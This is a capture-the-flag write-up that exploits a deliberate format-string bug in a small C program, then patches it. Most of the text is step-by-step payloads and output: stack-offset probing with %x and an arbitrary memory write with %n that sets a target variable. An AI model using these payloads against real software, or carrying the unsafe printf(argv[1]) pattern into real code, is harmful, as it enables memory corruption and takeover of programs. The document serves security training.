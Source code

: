 Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>

int target = 0;

int main(int argc, char *argv[])
{
	if (argc != 2)
	{
		printf("You need two arguments to run this binary, you have %d.\n", argc);
		exit(0);
	}

	printf(argv[1]);
	
	printf("Wasn't it all worth it? %x\n", target);	
	if (target == 0xe5ca3)
	{
		puts("Your celebration might have been a long way up, but here it is. Level Cleared!");
	}
}
```

So this looks similar to a lot of the previous levels. We have to change the value of the target integer to 0xe5ca3. However this challenge is different since it is the first format string level where we give input through argv[1]. This means that our input will have to be given as a function arguments instead of through a fgets() call, and the offset for our input will be much farther away. First we need to find the offset.  Since the offset is so far away, we will need to use python to create the format string which will give us the offset.

```
>>> payload = ""
>>> for i in range(1,200):
...     payload = payload + str(i) + ".%x"
... 
>>> payload = "00000" + payload
>>> payload
'000001.%x2.%x3.%x4.%x5.%x6.%x7.%x8.%x9.%x10.%x11.%x12.%x13.%x14.%x15.%x16.%x17.%x18.%x19.%x20.%x21.%x22.%x23.%x24.%x25.%x26.%x27.%x28.%x29.%x30.%x31.%x32.%x33.%x34.%x35.%x36.%x37.%x38.%x39.%x40.%x41.%x42.%x43.%x44.%x45.%x46.%x47.%x48.%x49.%x50.%x51.%x52.%x53.%x54.%x55.%x56.%x57.%x58.%x59.%x60.%x61.%x62.%x63.%x64.%x65.%x66.%x67.%x68.%x69.%x70.%x71.%x72.%x73.%x74.%x75.%x76.%x77.%x78.%x79.%x80.%x81.%x82.%x83.%x84.%x85.%x86.%x87.%x88.%x89.%x90.%x91.%x92.%x93.%x94.%x95.%x96.%x97.%x98.%x99.%x100.%x101.%x102.%x103.%x104.%x105.%x106.%x107.%x108.%x109.%x110.%x111.%x112.%x113.%x114.%x115.%x116.%x117.%x118.%x119.%x120.%x121.%x122.%x123.%x124.%x125.%x126.%x127.%x128.%x129.%x130.%x131.%x132.%x133.%x134.%x135.%x136.%x137.%x138.%x139.%x140.%x141.%x142.%x143.%x144.%x145.%x146.%x147.%x148.%x149.%x150.%x151.%x152.%x153.%x154.%x155.%x156.%x157.%x158.%x159.%x160.%x161.%x162.%x163.%x164.%x165.%x166.%x167.%x168.%x169.%x170.%x171.%x172.%x173.%x174.%x175.%x176.%x177.%x178.%x179.%x180.%x181.%x182.%x183.%x184.%x185.%x186.%x187.%x188.%x189.%x190.%x191.%x192.%x193.%x194.%x195.%x196.%x197.%x198.%x199.%x'
```

So now that we have the string, we should be able to find the offset. If you notice, there are five zeroes in the front instead of four, that is because sometimes the string isn't stored concurrently so it makes it a bit easier to find. Now to find it we are just going to grep for '30303030', which is hex for '0000'. 

```
$	./f6 000001.%x2.%x3.%x4.%x5.%x6.%x7.%x8.%x9.%x10.%x11.%x12.%x13.%x14.%x15.%x16.%x17.%x18.%x19.%x20.%x21.%x22.%x23.%x24.%x25.%x26.%x27.%x28.%x29.%x30.%x31.%x32.%x33.%x34.%x35.%x36.%x37.%x38.%x39.%x40.%x41.%x42.%x43.%x44.%x45.%x46.%x47.%x48.%x49.%x50.%x51.%x52.%x53.%x54.%x55.%x56.%x57.%x58.%x59.%x60.%x61.%x62.%x63.%x64.%x65.%x66.%x67.%x68.%x69.%x70.%x71.%x72.%x73.%x74.%x75.%x76.%x77.%x78.%x79.%x80.%x81.%x82.%x83.%x84.%x85.%x86.%x87.%x88.%x89.%x90.%x91.%x92.%x93.%x94.%x95.%x96.%x97.%x98.%x99.%x100.%x101.%x102.%x103.%x104.%x105.%x106.%x107.%x108.%x109.%x110.%x111.%x112.%x113.%x114.%x115.%x116.%x117.%x118.%x119.%x120.%x121.%x122.%x123.%x124.%x125.%x126.%x127.%x128.%x129.%x130.%x131.%x132.%x133.%x134.%x135.%x136.%x137.%x138.%x139.%x140.%x141.%x142.%x143.%x144.%x145.%x146.%x147.%x148.%x149.%x150.%x151.%x152.%x153.%x154.%x155.%x156.%x157.%x158.%x159.%x160.%x161.%x162.%x163.%x164.%x165.%x166.%x167.%x168.%x169.%x170.%x171.%x172.%x173.%x174.%x175.%x176.%x177.%x178.%x179.%x180.%x181.%x182.%x183.%x184.%x185.%x186.%x187.%x188.%x189.%x190.%x191.%x192.%x193.%x194.%x195.%x196.%x197.%x198.%x199.%x | grep 30303030
```

and the output for that...

```
000001.ffffcca42.ffffccb03.80485214.f7faf3dc5.ffffcc106.07.f7e156378.f7faf0009.f7faf00010.011.f7e1563712.213.ffffcca414.ffffccb015.016.017.018.f7faf00019.f7ffdc0420.f7ffd00021.022.f7faf00023.f7faf00024.025.b8e060126.36bdc81127.028.029.030.231.804837032.033.f7fedf1034.f7fe878035.f7ffd00036.237.804837038.039.804839140.804846b41.242.ffffcca443.804850044.804856045.f7fe878046.ffffcc9c47.f7ffd91848.249.ffffce7750.ffffce7c51.052.ffffd2c053.ffffd2cb54.ffffd2dd55.ffffd2f356.ffffd32b57.ffffd36458.ffffd37459.ffffd38860.ffffd39961.ffffd3bc62.ffffd3ce63.ffffd41264.ffffd42965.ffffd45666.ffffd47a67.ffffd48c68.ffffda1469.ffffda2770.ffffda6171.ffffda9572.ffffdabe73.ffffdaf174.ffffdb3575.ffffdbd276.ffffdbe977.ffffdbfb78.ffffdc1c79.ffffdc3180.ffffdc5081.ffffdc6282.ffffdc7683.ffffdc8984.ffffdc9a85.ffffdca986.ffffdcdf87.ffffdcf188.ffffdd0e89.ffffdd2090.ffffdd3a91.ffffdd5992.ffffdd7193.ffffdd8094.ffffdd8895.ffffdd9796.ffffddc397.ffffddd598.ffffddf599.ffffde10100.ffffde25101.ffffde37102.ffffde9d103.ffffded9104.ffffdef9105.ffffdf08106.ffffdf2a107.ffffdf49108.ffffdf54109.ffffdf6e110.ffffdf81111.ffffdfa3112.ffffdfcd113.ffffdfd4114.0115.20116.f7fd8be0117.21118.f7fd8000119.10120.bfebfbff121.6122.1000123.11124.64125.3126.8048034127.4128.20129.5130.9131.7132.f7fd9000133.8134.0135.9136.8048370137.b138.3e8139.c140.3e8141.d142.3e8143.e144.3e8145.17146.0147.19148.ffffce5b149.1f150.ffffdff3151.f152.ffffce6b153.0154.0155.0156.0157.0158.8d000000159.135f752c160.b7ff7a0b161.af5f9750162.69092a8d163.363836164.0165.2e000000166.36662f167.30303030168.252e3130169.252e3278170.252e3378171.252e3478172.252e3578173.252e3678174.252e3778175.252e3878176.252e3978177.2e303178178.31317825179.3178252e180.78252e32181.252e3331182.2e343178183.35317825184.3178252e185.78252e36186.252e3731187.2e383178188.39317825189.3278252e190.78252e30191.252e3132192.2e323278193.33327825194.3278252e195.78252e34196.252e3532197.2e363278198.37327825199.3278252eWasn't it all worth it? 0
```

Now grep highlighted the string '30303030' (even though it isn't highlighted here) and we can see that the offset is at 168. Let's test that.

```
$	./f6 `python -c 'print "0000.%168$x"'` 
0000.36662fWasn't it all worth it? 0
$	./f6 `python -c 'print "0000.%169$x"'` 
0000.30303030Wasn't it all worth it? 0
```

So you can see, the offset slightly changed because the length of the string we gave it changed. Now that we know the offset, let's find the address of the target variable by looking at the assembly code. We know that it is used in the second if then statement, so it should be used in the second cmp instruction.

```
   0x080484c6 <+91>:	add    esp,0x10
   0x080484c9 <+94>:	mov    eax,ds:0x804a028
   0x080484ce <+99>:	cmp    eax,0xe5ca3
   0x080484d3 <+104>:	jne    0x80484e5 <main+122>
```

Looking at there, we can see that the address of the target integer is 0x804a028. So now that we have the address and the offset, let's try writing to it.

```
$	./f6 `python -c 'print "\x28\xa0\x04\x08" + ".%169$x"'` 
(�.804a028Wasn't it all worth it? 0
$	./f6 `python -c 'print "\x28\xa0\x04\x08" + ".%169$n"'` 
(�.Wasn't it all worth it? 5
```

So we were able to write to the target int. Now we just need to write 0xe5ca3 - 5 = 941214 bytes to it to set it equal to the correct value (the reason it is 5 is because 4 byted from the address, and one from the "."). This may mess up the offset because of the additional 8 characters.

Input:
```
$	./f6 `python -c 'print "\x28\xa0\x04\x08" + ".%941215x%169$x"'`
```

Output:
```
          ffffd0d435313231Wasn't it all worth it? 0
```

We can see in hex "1215". Judging from where that is in our string, our address is probably two DWORDS behind 169.

Input:
```
$	./f6 `python -c 'print "\x28\xa0\x04\x08" + ".%941215x%167$x"'`
```

Output:
```
          ffffd0d4804a028Wasn't it all worth it? 0
```

As you can see there, we have the target address 804a028 so we have the correct offset and string length. Let's write to it.

Input:
```
$	./f6 `python -c 'print "\x28\xa0\x04\x08" + ".%941215x%167$n"'`
```

Output:
```
          ffffd0d4Wasn't it all worth it? e5ca4
```

So we wrote one too many bytes. Let's try writing one less byte.

Input:
```
$	./f6 `python -c 'print "\x28\xa0\x04\x08" + ".%941214x%167$n"'`
```

Output:
```
         ffffd0d4Wasn't it all worth it? e5ca3
Your celebration might have been a long way up, but here it is. Level Cleared!
```

And just like that, we pwned the binary! Now to patch it.

```
#include <stdio.h>
#include <stdlib.h>

int target = 0;

int main(int argc, char *argv[])
{
	if (argc != 2)
	{
		printf("You need two arguments to run this binary, you have %d.\n", argc);
		exit(0);
	}

	printf("%s\n", argv[1]);
	
	printf("Wasn't it all worth it? %x\n", target);	
	if (target == 0xe5ca3)
	{
		puts("Your celebration might have been a long way up, but here it is. Level Cleared!");
	}
}
```

As you can see, we formatted the printf function to print argv[1] as a string. Let's see if that fixes the issue.

```
$	./f6_secure %x.%x.%x.%x.%x
%x.%x.%x.%x.%x
Wasn't it all worth it? 0
```

Just like that, we patched the binary! 